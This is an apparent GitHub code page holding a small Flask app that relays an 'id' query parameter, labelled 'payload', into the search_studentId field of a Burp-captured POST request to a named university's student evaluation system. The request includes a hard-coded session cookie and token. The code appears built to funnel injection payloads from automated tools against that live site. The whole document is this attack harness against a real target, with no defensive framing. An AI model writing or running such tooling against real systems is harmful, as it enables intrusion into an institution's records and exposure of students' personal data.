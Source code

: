 # 9.flask

```pyhton
from flask import Flask,request,jsonify
from bs4 import BeautifulSoup
import requests

def remote_login(payload):
    burp0_url = "https://pzxg.peizheng.edu.cn:443/sms3/class/evaluationNew/stuEvaApplicationStuAllAddList.jsp"
    burp0_cookies = {"JSESSIONID": "CD45B234B081F3FB7FB53558810111EE.sms49_01"}
    burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0",
                     "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
                     "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
                     "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded",
                     "Origin": "https://pzxg.peizheng.edu.cn",
                     "Referer": "https://pzxg.peizheng.edu.cn/sms3/class/evaluationNew/stuEvaApplicationStuAllAddList.jsp",
                     "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "iframe", "Sec-Fetch-Mode": "navigate",
                     "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1", "Priority": "u=4", "Te": "trailers",
                     "Connection": "close"}
    burp0_data = {"action_name": "search", "session_token": "token_key_1729053975118",
                  "search_evaluationTemplateId": "19", "search_studentId": f"{payload}", "search_commonName": '',
                  "search_naturalClassId": '', "search_name": '', "evaluationItemId": '', "search_role": '',
                  "search_auditStatue": '', "_tableColumnId": "\xe5\xad\xa6\xe5\x8f\xb7",
                  "_tableColumnId": "\xe5\xa7\x93\xe5\x90\x8d", "_tableColumnId": "\xe7\x8f\xad\xe7\xba\xa7",
                  "_tableColumnId": "\xe6\xb5\x8b\xe8\xaf\x84\xe7\xb1\xbb\xe5\x9e\x8b",
                  "_tableColumnId": "\xe5\x90\x8d\xe7\xa7\xb0", "_tableColumnId": "\xe7\xba\xa7\xe5\x88\xab",
                  "_tableColumnId": "\xe5\x88\x86\xe6\x95\xb0", "_tableColumnId": "\xe9\x99\x84\xe4\xbb\xb6",
                  "_tableColumnId": "\xe5\xae\xa1\xe6\xa0\xb8\xe7\x8a\xb6\xe6\x80\x81",
                  "_tableColumnId": "\xe6\x93\x8d\xe4\xbd\x9c", "scroll.pageSize": "10", "scroll.pageIndex": "0",
                  "sort.sortColumn": "s.XH", "sort.ascending": "true", "example1_length": "10"}
    response=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

    return response.text

app = Flask(__name__)
@app.route('/')
def login():
    playload = request.args.get("id")
    print(playload)
    html_content = remote_login(playload)
    return html_content

if __name__=='__main__':
    app.run()
```
